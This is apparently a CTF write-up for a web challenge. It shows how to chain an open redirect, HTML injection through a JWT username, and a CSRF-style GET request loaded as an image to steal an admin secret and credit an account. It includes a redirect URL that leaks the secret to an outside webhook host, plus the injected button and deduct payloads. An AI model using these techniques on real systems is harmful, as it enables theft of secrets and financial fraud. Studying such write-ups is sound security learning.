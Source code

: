 ## Open Redirect to leak admin secret
There is an open redirect in the admin login page. The admin secret is appended to the redirect url. The redirect url is intended to be a google login link, but we can set it to be our own webhook by appending a @ behind the domain to form 
https://accounts.google.com@eo2jsc6xk7y9tec.m.pipedream.net?

Next, we notice that the google login actually hasnt been implemented, and is just placeholder code. When a button is clicked, it is checked wheter the button is a google login button, and if it is, then the user is redirected to the google login url. There is an HTML injection vulnerability in the button. We can set our username in the JWT token to be 
<button id = 'google'>Google Logingadadadadadada</button>
Such that when the admin bot clicks on the button, it triggers the open redirect. 

With the admin secret, we now need a way to add money to ourselves, which can be done using the deduct endpoint. Since only the admin user has the debug token, we need to somehow make him trigger the endpoint. Notice that the deduct endpoint is a get request. This means that any image that is loaded in the admin page will trigger the endpoint. We can use this to our advantage by setting the image source to be /api/admin/Xvlw8ZUiBZcPCvbcKICqtjkqTgRmHtXxXVFiZkiWv0wIykgTWuuC7CKuAGf2bJBT/deduct?amount=-1000000000 which will deduct -1000000000 from our account thus giving us sufficient money to buy the flag.